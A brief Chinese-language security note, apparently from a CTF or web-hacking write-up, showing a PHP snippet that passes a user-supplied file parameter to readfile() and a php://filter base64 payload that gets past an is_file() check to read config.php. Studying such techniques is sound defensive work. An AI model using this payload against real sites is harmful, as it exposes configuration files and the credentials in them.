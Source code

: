 绕过一些限制，编码输出；

e.g.

```
if(isset($_GET['file'])===false)
    echo "None";
elseif(is_file($_GET['file']))
    echo "you cannot give me a file";
else
    readfile($_GET['file']);
```

`elseif(is_file($_GET['file']))`进行了限制，这里完全利用filter伪协议绕过is_file；

```
/member.php?file=php://filter/read=convert.base64-encode/resource=config.php
```

readfile()利用伪协议读取到config.php文件内容；
